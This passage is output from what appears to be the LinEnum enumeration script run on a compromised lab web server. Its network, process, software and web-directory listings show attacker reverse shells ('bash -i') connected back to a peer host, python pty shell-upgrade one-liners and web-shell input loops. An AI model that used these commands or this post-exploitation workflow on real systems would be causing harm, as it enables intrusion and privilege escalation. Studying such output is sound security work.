          inet addr:192.168.1.31  Bcast:192.168.1.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fef2:40db/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:298898 errors:0 dropped:0 overruns:0 frame:0
          TX packets:12144 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:19954619 (19.0 MiB)  TX bytes:1362900 (1.2 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)


[-] ARP history:
? (192.168.1.28) at 00:0c:29:a3:a1:09 [ether] on eth0


[-] Nameserver(s):
nameserver 8.8.8.8


[-] Default route:
default         192.168.1.1     0.0.0.0         UG    0      0        0 eth0


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address               Foreign Address             State       PID/Program name
tcp        0      0 :::591                      :::*                        LISTEN      -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56702   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56694   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56692   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56708   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56670   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56704   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56728   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56736   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56654   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56716   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56676   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56730   TIME_WAIT   -
tcp        0      0 fe80::a00:27ff:fef2:4:36890 fe80::20c:29ff:fea3:a109:80 CLOSE_WAIT  9735/bash
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56744   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56722   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56732   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56696   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56742   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56666   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56690   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56658   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56740   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56652   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56710   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56682   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56726   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56738   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56656   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56706   TIME_WAIT   -
tcp        0      0 fe80::a00:27ff:fef2:4:36891 fe80::20c:29ff:fea3:a109:80 ESTABLISHED 15203/bash
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56678   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56664   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56720   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56754   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56672   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56750   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56724   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56752   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56718   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56660   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56662   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56746   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56686   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56700   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56698   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56674   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56684   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56748   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56712   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56734   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56668   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56680   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56688   TIME_WAIT   -
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:56714   TIME_WAIT   -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address               Foreign Address             State       PID/Program name
udp        0      0 0.0.0.0:68                  0.0.0.0:*                               -


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.6  19232  1480 ?        Ss   08:07   0:00 /sbin/init
root         2  0.0  0.0      0     0 ?        S    08:07   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    08:07   0:00 [migration/0]
root         4  0.0  0.0      0     0 ?        S    08:07   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S    08:07   0:00 [stopper/0]
root         6  0.0  0.0      0     0 ?        S    08:07   0:00 [watchdog/0]
root         7  0.0  0.0      0     0 ?        S    08:07   0:05 [events/0]
root         8  0.0  0.0      0     0 ?        S    08:07   0:00 [cgroup]
root         9  0.0  0.0      0     0 ?        S    08:07   0:00 [khelper]
root        10  0.0  0.0      0     0 ?        S    08:07   0:00 [netns]
root        11  0.0  0.0      0     0 ?        S    08:07   0:00 [async/mgr]
root        12  0.0  0.0      0     0 ?        S    08:07   0:00 [pm]
root        13  0.0  0.0      0     0 ?        S    08:07   0:00 [sync_supers]
root        14  0.0  0.0      0     0 ?        S    08:07   0:00 [bdi-default]
root        15  0.0  0.0      0     0 ?        S    08:07   0:00 [kintegrityd/0]
root        16  0.0  0.0      0     0 ?        R    08:07   0:00 [kblockd/0]
root        17  0.0  0.0      0     0 ?        S    08:07   0:00 [kacpid]
root        18  0.0  0.0      0     0 ?        S    08:07   0:00 [kacpi_notify]
root        19  0.0  0.0      0     0 ?        S    08:07   0:00 [kacpi_hotplug]
root        20  0.0  0.0      0     0 ?        S    08:07   0:00 [ata_aux]
root        21  0.0  0.0      0     0 ?        S    08:07   0:00 [ata_sff/0]
root        22  0.0  0.0      0     0 ?        S    08:07   0:00 [ksuspend_usbd]
root        23  0.0  0.0      0     0 ?        S    08:07   0:00 [khubd]
root        24  0.0  0.0      0     0 ?        S    08:07   0:00 [kseriod]
root        25  0.0  0.0      0     0 ?        S    08:07   0:00 [md/0]
root        26  0.0  0.0      0     0 ?        S    08:07   0:00 [md_misc/0]
root        27  0.0  0.0      0     0 ?        S    08:07   0:00 [linkwatch]
root        29  0.0  0.0      0     0 ?        S    08:07   0:00 [khungtaskd]
root        30  0.0  0.0      0     0 ?        S    08:07   0:00 [kswapd0]
root        31  0.0  0.0      0     0 ?        SN   08:07   0:00 [ksmd]
root        32  0.0  0.0      0     0 ?        S    08:07   0:00 [aio/0]
root        33  0.0  0.0      0     0 ?        S    08:07   0:00 [crypto/0]
root        41  0.0  0.0      0     0 ?        S    08:07   0:00 [kthrotld/0]
root        43  0.0  0.0      0     0 ?        S    08:07   0:00 [kpsmoused]
root        44  0.0  0.0      0     0 ?        S    08:07   0:00 [usbhid_resumer]
root        45  0.0  0.0      0     0 ?        S    08:07   0:00 [deferwq]
root        75  0.0  0.0      0     0 ?        S    08:07   0:00 [kdmremove]
root        76  0.0  0.0      0     0 ?        S    08:07   0:00 [kstriped]
root       293  0.0  0.0      0     0 ?        S    08:07   0:00 [scsi_eh_0]
root       294  0.0  0.0      0     0 ?        S    08:07   0:00 [scsi_eh_1]
root       339  0.0  0.0      0     0 ?        S    08:07   0:00 [jbd2/sda1-8]
root       340  0.0  0.0      0     0 ?        S    08:07   0:00 [ext4-dio-unwrit]
root       413  0.0  0.3  10716   808 ?        S<s  08:07   0:00 /sbin/udevd -d
root       677  0.0  0.3  10712   840 ?        S<   08:07   0:00 /sbin/udevd -d
root       736  0.0  0.0      0     0 ?        S    08:07   0:00 [kauditd]
root       916  0.0  0.0      0     0 ?        S    08:07   0:00 [flush-8:0]
root       964  0.0  0.3   9120   756 ?        Ss   08:07   0:00 /sbin/dhclient -1 -q -lf /var/lib/dhclient/dhclient-eth0.leases -pf /var/run/dhclient-eth0.pid eth0
root      1008  0.0  0.3  27640   828 ?        S<sl 08:07   0:00 auditd
root      1024  0.0  0.7 255420  1716 ?        Sl   08:07   0:00 /sbin/rsyslogd -i /var/run/syslogd.pid -c 5
root      1069  0.0  1.6 175564  4104 ?        Ss   08:07   0:01 /usr/sbin/httpd
root      1077  0.0  0.5 117216  1232 ?        Ss   08:07   0:00 crond
root      1098  0.0  0.2   4064   584 tty1     Ss+  08:07   0:00 /sbin/mingetty /dev/tty1
root      1100  0.0  0.2   4064   584 tty2     Ss+  08:07   0:00 /sbin/mingetty /dev/tty2
root      1102  0.0  0.2   4064   584 tty3     Ss+  08:07   0:00 /sbin/mingetty /dev/tty3
root      1104  0.0  0.2   4064   584 tty4     Ss+  08:07   0:00 /sbin/mingetty /dev/tty4
root      1106  0.0  0.2   4064   588 tty5     Ss+  08:07   0:00 /sbin/mingetty /dev/tty5
root      1108  0.0  0.2   4064   588 tty6     Ss+  08:07   0:00 /sbin/mingetty /dev/tty6
apache    2347  0.0  1.3 175696  3188 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2348  0.0  1.3 175696  3184 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2349  0.0  1.3 175696  3192 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2350  0.0  1.3 175696  3184 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2351  0.0  1.3 175696  3176 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2352  0.0  1.3 175696  3184 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2353  0.0  1.3 175696  3192 ?        S    09:25   0:00 /usr/sbin/httpd
apache    2354  0.0  1.3 175696  3192 ?        S    09:25   0:00 /usr/sbin/httpd
apache    5683  0.0  0.5  11300  1284 ?        S    12:41   0:00 sh
apache    5685  0.0  0.2   4104   584 ?        S    12:41   0:00 tail -f /dev/shm/input.5102
apache    5686  0.0  0.5  11304  1296 ?        S    12:41   0:00 /bin/sh
apache    5740  0.0  0.5  11300  1284 ?        S    12:41   0:00 sh
apache    5742  0.0  0.2   4104   584 ?        S    12:41   0:00 tail -f /dev/shm/input.6209
apache    5743  0.0  0.5  11304  1292 ?        S    12:41   0:00 /bin/sh
apache    5856  0.0  0.5  11300  1276 ?        S    12:45   0:00 sh
apache    5858  0.0  0.2   4104   584 ?        S    12:45   0:00 tail -f /dev/shm/input.6208
apache    5859  0.0  0.5  11304  1292 ?        S    12:45   0:00 /bin/sh
apache    6445  0.0  0.5  11300  1276 ?        S    13:19   0:00 sh
apache    6447  0.0  0.2   4100   524 ?        S    13:19   0:00 tail -f /dev/shm/input.9569
apache    6448  0.0  0.4  11300  1184 ?        S    13:19   0:00 /bin/sh
apache    6471  0.0  0.5  11300  1280 ?        S    13:20   0:00 sh
apache    6473  0.0  0.2   4104   588 ?        S    13:20   0:00 tail -f /dev/shm/input.8387
apache    6474  0.0  0.5  11304  1288 ?        S    13:20   0:00 /bin/sh
apache    6519  0.0  0.5  11300  1284 ?        S    13:21   0:00 sh
apache    6521  0.0  0.2   4100   520 ?        S    13:21   0:00 tail -f /dev/shm/input.6553
apache    6522  0.0  0.4  11300  1188 ?        S    13:21   0:00 /bin/sh
apache    6646  0.0  0.5  11300  1280 ?        S    13:29   0:00 sh
apache    6648  0.0  0.2   4104   588 ?        S    13:29   0:00 tail -f /dev/shm/input.1903
apache    6649  0.0  0.5  11300  1272 ?        S    13:29   0:00 /bin/sh
apache    6706  0.0  0.5  11300  1284 ?        S    13:31   0:00 sh
apache    6708  0.0  0.2   4104   588 ?        S    13:31   0:00 tail -f /dev/shm/input.8841
apache    6709  0.0  0.5  11304  1296 ?        S    13:31   0:00 /bin/sh
apache    7048  0.0  0.5  11300  1280 ?        S    13:33   0:00 sh
apache    7050  0.0  0.2   4104   584 ?        S    13:33   0:00 tail -f /dev/shm/input.6842
apache    7051  0.0  0.5  11304  1296 ?        S    13:33   0:00 /bin/sh
apache    7160  0.0  1.5  24460  3860 ?        S    13:33   0:00 python -c import pty; pty.spawn("/bin/bash")
apache    7161  0.0  0.6  11304  1476 pts/0    Ss+  13:33   0:00 /bin/bash
apache    7299  0.0  0.5  11300  1280 ?        S    13:34   0:00 sh
apache    7301  0.0  0.2   4104   584 ?        S    13:34   0:00 tail -f /dev/shm/input.4159
apache    7302  0.0  0.5  11300  1272 ?        S    13:34   0:00 /bin/sh
apache    7353  0.0  0.5  11300  1284 ?        S    13:34   0:00 sh
apache    7355  0.0  0.2   4104   580 ?        S    13:34   0:00 tail -f /dev/shm/input.6266
apache    7356  0.0  0.5  11300  1276 ?        S    13:34   0:00 /bin/sh
apache    7388  0.0  0.5  11300  1284 ?        S    13:34   0:00 sh
apache    7390  0.0  0.2   4104   588 ?        S    13:34   0:00 tail -f /dev/shm/input.3297
apache    7391  0.0  0.5  11300  1300 ?        S    13:34   0:00 /bin/sh
apache    9735  0.0  0.6  11304  1604 ?        S    13:41   0:00 bash -i
apache   13732 61.9  1.5  24460  3860 ?        R    13:54   4:48 python -c import pty; pty.spawn("/bin/bash")
apache   13733  0.0  0.6  11308  1588 pts/1    Ss+  13:54   0:00 /bin/bash
apache   15146  0.0  0.5  11300  1284 ?        S    13:59   0:00 sh
apache   15148  0.0  0.2   4104   584 ?        S    13:59   0:00 tail -f /dev/shm/input.4896
apache   15149  0.0  0.5  11300  1268 ?        S    13:59   0:00 /bin/sh
apache   15203  0.0  0.6  11304  1576 ?        S    13:59   0:00 bash -i
apache   15294  0.0  1.5  24456  3852 ?        S    13:59   0:00 python -c import pty; pty.spawn("/bin/bash")
apache   15295  0.0  0.6  11420  1644 pts/2    Ss   13:59   0:00 /bin/bash
apache   16143  0.0  0.7   9592  1720 pts/2    S+   14:02   0:00 bash linenum.sh
apache   16144  0.1  0.5   9724  1412 pts/2    S+   14:02   0:00 bash linenum.sh
apache   16145  0.0  0.2   4072   544 pts/2    S+   14:02   0:00 tee -a
apache   16336  0.0  0.4   9724  1120 pts/2    S+   14:02   0:00 bash linenum.sh
apache   16337  0.0  0.4  13368  1056 pts/2    R+   14:02   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x. 1 root root 903272 Feb 21  2013 /bin/bash
lrwxrwxrwx. 1 root root      4 Nov 12  2014 /bin/sh -> bash
-rwxr-xr-x. 1 root root 572256 Feb 22  2013 /sbin/dhclient
-rwxr-xr-x. 1 root root 150352 Jun 22  2012 /sbin/init
-rwxr-xr-x. 1 root root  15256 Sep 23  2011 /sbin/mingetty
-rwxr-xr-x. 1 root root 391968 Feb 22  2013 /sbin/rsyslogd
-rwxr-xr-x. 1 root root 129120 Feb 22  2013 /sbin/udevd
-rwxr-xr-x. 1 root root 355232 Oct 16  2014 /usr/sbin/httpd


[-] /etc/init.d/ binary permissions:
lrwxrwxrwx. 1 root root 11 Nov 12  2014 /etc/init.d -> rc.d/init.d


[-] /etc/rc.d/init.d binary permissions:
total 176
drwxr-xr-x.  2 root root  4096 Jan  2  2015 .
drwxr-xr-x. 10 root root  4096 Nov 12  2014 ..
-rwxr-xr-x.  1 root root  3378 Jun 22  2012 auditd
-r-xr-xr-x.  1 root root  1340 Feb 22  2013 blk-availability
-rwxr-xr-x.  1 root root  2793 Jul 19  2011 crond
-rw-r--r--.  1 root root 18216 Jan  9  2013 functions
-rwxr-xr-x.  1 root root  5829 Jan  9  2013 halt
-rwxr-xr-x.  1 root root  2001 Oct 16  2014 htcacheclean
-rwxr-xr-x.  1 root root  3371 Oct 16  2014 httpd
-rwxr-xr-x.  1 root root  9515 Feb 22  2013 ip6tables
-rwxr-xr-x.  1 root root  9409 Feb 22  2013 iptables
-rwxr-xr-x.  1 root root  4535 Oct 22  2012 iscsi
-rwxr-xr-x.  1 root root  3990 Oct 22  2012 iscsid
-rwxr-xr-x.  1 root root   652 Jan  9  2013 killall
-r-xr-xr-x.  1 root root  2134 Feb 22  2013 lvm2-lvmetad
-r-xr-xr-x.  1 root root  2665 Feb 22  2013 lvm2-monitor
-rwxr-xr-x.  1 root root  2571 Dec  6  2012 mdmonitor
-rwxr-xr-x.  1 root root  2523 Feb 22  2013 multipathd
-rwxr-xr-x.  1 root root  2989 Jan  9  2013 netconsole
-rwxr-xr-x.  1 root root  5486 Jan  9  2013 netfs
-rwxr-xr-x.  1 root root  6334 Jan  9  2013 network
-rwxr-xr-x.  1 root root  3852 Dec  3  2011 postfix
-rwxr-xr-x.  1 root root  1559 May 20  2009 rdisc
-rwxr-xr-x.  1 root root  1822 Feb 22  2013 restorecond
-rwxr-xr-x.  1 root root  2011 Jan  9  2013 rsyslog
-rwxr-xr-x.  1 root root  1698 Feb 22  2013 sandbox
-rwxr-xr-x.  1 root root  2056 Nov 20  2012 saslauthd
-rwxr-xr-x.  1 root root   647 Jan  9  2013 single
-rwxr-xr-x.  1 root root  4534 Feb 22  2013 sshd
-rwxr-xr-x.  1 root root  1144 Oct 16  2014 sysstat
-rwxr-xr-x.  1 root root  2294 Feb 22  2013 udev-post


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.6p3


[-] Apache version:
Server version: Apache/2.2.15 (Unix)
Server built:   Oct 16 2014 14:48:21


[-] Installed Apache modules:
Loaded Modules:
 core_module (static)
 mpm_prefork_module (static)
 http_module (static)
 so_module (static)
 auth_basic_module (shared)
 auth_digest_module (shared)
 authn_file_module (shared)
 authn_alias_module (shared)
 authn_anon_module (shared)
 authn_dbm_module (shared)
 authn_default_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 authz_owner_module (shared)
 authz_groupfile_module (shared)
 authz_dbm_module (shared)
 authz_default_module (shared)
 ldap_module (shared)
 authnz_ldap_module (shared)
 include_module (shared)
 log_config_module (shared)
 logio_module (shared)
 env_module (shared)
 ext_filter_module (shared)
 mime_magic_module (shared)
 expires_module (shared)
 deflate_module (shared)
 headers_module (shared)
 usertrack_module (shared)
 setenvif_module (shared)
 mime_module (shared)
 dav_module (shared)
 status_module (shared)
 autoindex_module (shared)
 info_module (shared)
 dav_fs_module (shared)
 vhost_alias_module (shared)
 negotiation_module (shared)
 dir_module (shared)
 actions_module (shared)
 speling_module (shared)
 userdir_module (shared)
 alias_module (shared)
 substitute_module (shared)
 rewrite_module (shared)
 proxy_module (shared)
 proxy_balancer_module (shared)
 proxy_ftp_module (shared)
 proxy_http_module (shared)
 proxy_ajp_module (shared)
 proxy_connect_module (shared)
 cache_module (shared)
 suexec_module (shared)
 disk_cache_module (shared)
 cgi_module (shared)
 version_module (shared)


[-] www home dir contents:
/var/www/:
total 24K
drwxr-xr-x.  5 root root 4.0K Nov 15  2014 .
drwxr-xr-x. 19 root root 4.0K Dec 30  2014 ..
drwxr-xr-x.  2 root root 4.0K Jan 25  2015 cgi-bin
drwxr-xr-x.  3 root root 4.0K Nov 12  2014 error
drwxr-xr-x.  3 root root 4.0K Nov 12  2014 icons
-rw-r--r--   1 root root  244 Nov 15  2014 index.html

/var/www/cgi-bin:
total 12K
drwxr-xr-x. 2 root root 4.0K Jan 25  2015 .
drwxr-xr-x. 5 root root 4.0K Nov 15  2014 ..
-rwxr-xr-x  1 root root  169 Jan 25  2015 cat

/var/www/error:
total 208K
drwxr-xr-x. 3 root root 4.0K Nov 12  2014 .
drwxr-xr-x. 5 root root 4.0K Nov 15  2014 ..
-rw-r--r--. 1 root root 8.9K Nov 13  2005 HTTP_BAD_GATEWAY.html.var
-rw-r--r--. 1 root root 6.5K Nov 13  2005 HTTP_BAD_REQUEST.html.var
-rw-r--r--. 1 root root  11K Nov 13  2005 HTTP_FORBIDDEN.html.var
-rw-r--r--. 1 root root  13K Nov 13  2005 HTTP_GONE.html.var
-rw-r--r--. 1 root root  13K Nov 13  2005 HTTP_INTERNAL_SERVER_ERROR.html.var
-rw-r--r--. 1 root root 7.4K Nov 13  2005 HTTP_LENGTH_REQUIRED.html.var
-rw-r--r--. 1 root root 6.7K Nov 13  2005 HTTP_METHOD_NOT_ALLOWED.html.var
-rw-r--r--. 1 root root  13K Nov 13  2005 HTTP_NOT_FOUND.html.var
-rw-r--r--. 1 root root 6.2K Nov 13  2005 HTTP_NOT_IMPLEMENTED.html.var
-rw-r--r--. 1 root root 6.5K Nov 13  2005 HTTP_PRECONDITION_FAILED.html.var
-rw-r--r--. 1 root root 7.7K Nov 13  2005 HTTP_REQUEST_ENTITY_TOO_LARGE.html.var
-rw-r--r--. 1 root root 7.0K Nov 13  2005 HTTP_REQUEST_TIME_OUT.html.var
-rw-r--r--. 1 root root 7.0K Nov 13  2005 HTTP_REQUEST_URI_TOO_LARGE.html.var
-rw-r--r--. 1 root root 7.7K Nov 13  2005 HTTP_SERVICE_UNAVAILABLE.html.var
-rw-r--r--. 1 root root  13K Nov 13  2005 HTTP_UNAUTHORIZED.html.var
-rw-r--r--. 1 root root 6.3K Nov 13  2005 HTTP_UNSUPPORTED_MEDIA_TYPE.html.var
-rw-r--r--. 1 root root 6.9K Nov 13  2005 HTTP_VARIANT_ALSO_VARIES.html.var
-rw-r--r--. 1 root root 2.0K Jul 12  2006 README
-rw-r--r--. 1 root root 4.2K Nov 13  2005 contact.html.var
drwxr-xr-x. 2 root root 4.0K Nov 12  2014 include
-rw-r--r--. 1 root root 4.9K Sep  1  2014 noindex.html

/var/www/error/include:
total 20K
drwxr-xr-x. 2 root root 4.0K Nov 12  2014 .
drwxr-xr-x. 3 root root 4.0K Nov 12  2014 ..
-rw-r--r--. 1 root root  343 Nov 20  2004 bottom.html
-rw-r--r--. 1 root root    9 Nov 20  2004 spacer.html
-rw-r--r--. 1 root root  969 Nov 20  2004 top.html

/var/www/icons:
total 692K
drwxr-xr-x. 3 root root 4.0K Nov 12  2014 .
drwxr-xr-x. 5 root root 4.0K Nov 15  2014 ..
-rw-r--r--. 1 root root 5.0K Aug 28  2007 README
-rw-r--r--. 1 root root  36K Aug 28  2007 README.html
-rw-r--r--. 1 root root  246 Nov 20  2004 a.gif
-rw-r--r--. 1 root root  306 Nov 26  2008 a.png
-rw-r--r--. 1 root root  242 Nov 20  2004 alert.black.gif
-rw-r--r--. 1 root root  293 Nov 26  2008 alert.black.png
-rw-r--r--. 1 root root  247 Nov 20  2004 alert.red.gif
-rw-r--r--. 1 root root  314 Nov 26  2008 alert.red.png
-rw-r--r--. 1 root root 2.3K Nov 20  2004 apache_pb.gif
-rw-r--r--. 1 root root 2.1K Nov 26  2008 apache_pb.png
-rw-r--r--. 1 root root 1.8K Nov 26  2008 apache_pb2.gif
-rw-r--r--. 1 root root 1.5K Nov 26  2008 apache_pb2.png
-rw-r--r--. 1 root root 2.4K Nov 26  2008 apache_pb2_ani.gif
-rw-r--r--. 1 root root  216 Nov 20  2004 back.gif
-rw-r--r--. 1 root root  308 Nov 26  2008 back.png
-rw-r--r--. 1 root root  233 Nov 20  2004 ball.gray.gif
-rw-r--r--. 1 root root  298 Nov 26  2008 ball.gray.png
-rw-r--r--. 1 root root  205 Nov 20  2004 ball.red.gif
-rw-r--r--. 1 root root  289 Nov 26  2008 ball.red.png
-rw-r--r--. 1 root root  246 Nov 20  2004 binary.gif
-rw-r--r--. 1 root root  310 Nov 26  2008 binary.png
-rw-r--r--. 1 root root  246 Nov 20  2004 binhex.gif
-rw-r--r--. 1 root root  319 Nov 26  2008 binhex.png
-rw-r--r--. 1 root root  148 Nov 20  2004 blank.gif
-rw-r--r--. 1 root root  215 Nov 26  2008 blank.png
-rw-r--r--. 1 root root  308 Nov 20  2004 bomb.gif
-rw-r--r--. 1 root root  375 Nov 26  2008 bomb.png
-rw-r--r--. 1 root root  251 Nov 20  2004 box1.gif
-rw-r--r--. 1 root root  325 Aug 28  2007 box1.png
-rw-r--r--. 1 root root  268 Nov 20  2004 box2.gif
-rw-r--r--. 1 root root  336 Aug 28  2007 box2.png
-rw-r--r--. 1 root root  247 Nov 20  2004 broken.gif
-rw-r--r--. 1 root root  320 Nov 26  2008 broken.png
-rw-r--r--. 1 root root  235 Nov 20  2004 burst.gif
-rw-r--r--. 1 root root  341 Nov 26  2008 burst.png
-rw-r--r--. 1 root root  242 Nov 20  2004 c.gif
-rw-r--r--. 1 root root  299 Nov 26  2008 c.png
-rw-r--r--. 1 root root  251 Nov 20  2004 comp.blue.gif
-rw-r--r--. 1 root root  330 Aug 28  2007 comp.blue.png
-rw-r--r--. 1 root root  246 Nov 20  2004 comp.gray.gif
-rw-r--r--. 1 root root  318 Nov 26  2008 comp.gray.png
-rw-r--r--. 1 root root 1.1K Nov 20  2004 compressed.gif
-rw-r--r--. 1 root root 1.1K Aug 28  2007 compressed.png
-rw-r--r--. 1 root root  214 Nov 20  2004 continued.gif
-rw-r--r--. 1 root root  296 Nov 26  2008 continued.png
-rw-r--r--. 1 root root  225 Nov 20  2004 dir.gif
-rw-r--r--. 1 root root  295 Nov 26  2008 dir.png
-rw-r--r--. 1 root root  167 Nov 20  2004 diskimg.gif
-rw-r--r--. 1 root root  215 Aug 28  2007 diskimg.png
-rw-r--r--. 1 root root  163 Nov 20  2004 down.gif
-rw-r--r--. 1 root root  256 Nov 26  2008 down.png
-rw-r--r--. 1 root root  238 Nov 20  2004 dvi.gif
-rw-r--r--. 1 root root  305 Nov 26  2008 dvi.png
-rw-r--r--. 1 root root  236 Nov 20  2004 f.gif
-rw-r--r--. 1 root root  296 Nov 26  2008 f.png
-rw-r--r--. 1 root root  225 Nov 20  2004 folder.gif
-rw-r--r--. 1 root root  242 Nov 20  2004 folder.open.gif
-rw-r--r--. 1 root root  332 Nov 26  2008 folder.open.png
-rw-r--r--. 1 root root  295 Nov 26  2008 folder.png
-rw-r--r--. 1 root root  243 Nov 20  2004 folder.sec.gif
-rw-r--r--. 1 root root  313 Aug 28  2007 folder.sec.png
-rw-r--r--. 1 root root  219 Nov 20  2004 forward.gif
-rw-r--r--. 1 root root  308 Nov 26  2008 forward.png
-rw-r--r--. 1 root root  221 Nov 20  2004 generic.gif
-rw-r--r--. 1 root root  275 Nov 26  2008 generic.png
-rw-r--r--. 1 root root  220 Nov 20  2004 generic.red.gif
-rw-r--r--. 1 root root  283 Nov 26  2008 generic.red.png
-rw-r--r--. 1 root root  249 Nov 20  2004 generic.sec.gif
-rw-r--r--. 1 root root  295 Nov 26  2008 generic.sec.png
-rw-r--r--. 1 root root  217 Nov 20  2004 hand.right.gif
-rw-r--r--. 1 root root  311 Nov 26  2008 hand.right.png
-rw-r--r--. 1 root root  223 Nov 20  2004 hand.up.gif
-rw-r--r--. 1 root root  304 Nov 26  2008 hand.up.png
-rw-r--r--. 1 root root  12K Nov 20  2004 icon.sheet.gif
-rw-r--r--. 1 root root 8.9K Aug 28  2007 icon.sheet.png
-rw-r--r--. 1 root root  274 Nov 20  2004 image1.gif
-rw-r--r--. 1 root root  325 Nov 26  2008 image1.png
-rw-r--r--. 1 root root  309 Nov 20  2004 image2.gif
-rw-r--r--. 1 root root  371 Nov 26  2008 image2.png
-rw-r--r--. 1 root root  286 Nov 20  2004 image3.gif
